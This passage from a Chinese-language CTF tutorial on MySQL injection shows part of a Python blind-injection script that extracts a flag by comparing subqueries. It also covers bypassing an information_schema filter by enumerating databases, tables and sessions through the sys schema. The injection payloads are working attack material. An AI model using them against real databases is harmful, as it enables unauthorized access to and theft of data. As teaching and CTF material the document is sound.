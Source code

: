 ```python
            s = s + chr(mid)
            payload = f"0^((select * from f1ag_1s_h3r3_hhhhh)>(select 1,'{s}'))"
            data = {"id": payload}
            res = requests.post(url=url, data=data).text
            if "Nu1L" in res:
                letf = mid + 1
            else:
                right = mid
        if letf != 28:
            flag += chr(letf - 1)
            print('比较法取数据：'+flag)
            time.sleep(0.2)
        else:
            break
flag+=chr(i-1),为啥这里是i-1，比如(select 1,“F”)>(select * from f1ag_1s_h3r3_hhhhh)，因为flag的第一位是F，F=F,而不是F>F,所以返回的是false，(select 1,“G”)>(select * from f1ag_1s_h3r3_hhhhh),因为G>F,所以返回true
```

对于 payload 这个两个 select 查询的比较，是按位比较的，即先比第一位，如果相等则比第二位，这个是前提条件，就是只有前面的字符都相等，才可以继续比较下去，有点类似C语言的字符串大小比较的*strcmp()函数*

##### 4.过滤了information_schema库，利用sys系统库

当过滤or时，information_schema这个库就会被过滤，那么mysql在被waf禁掉了information_schema库后还能有哪些利用思路呢？

information_schema  简单来说，这个库在mysql中就是个信息数据库，它保存着mysql服务器所维护的所有其他数据库的信息，包括了数据库名，表名，字段名等。在注入中， infromation_schema库的作用无非就是可以获取到table_schema、table_name、column_name这些数据库内 的信息。

能够代替information_schema的有：

-  sys.schema_auto_increment_columns  只显示有自增的表 
-  sys.schema_table_statistics_with_buffer 
-  x$schema_table_statistics_with_buffer 
-  mysql.innodb_table_stats 
-  mysql.innodb_table_index 

```sql
select * from user where id = -1 union all select 1,2,3,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database();
```

以上大部分特殊数据库都是在 mysql5.7 以后的版本才有，并且要访问sys数据库需要有相应的权限。

```sql
#查询所有的库：
SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;
#查询指定库的表（若无则说明此表从未被访问）：
SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
SELECT table_name FROM  sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;
#统计所有访问过的表次数:库名,表名,访问次数
select table_schema,table_name,sum(io_read_requests+io_write_requests) io from sys.schema_table_statistics group by table_schema,table_name order by io desc;
#查看所有正在连接的用户详细信息:连接的用户(连接的用户名,连接的ip),当前库,用户状态(Sleep就是空闲),现在在执行的sql语句,上一次执行的sql语句,已经建立连接的时间(秒)
SELECT user,db,command,current_statement,last_statement,time FROM sys.session;
#查看所有曾连接数据库的IP,总连接次数
SELECT host,total_connections FROM sys.host_summary;
```
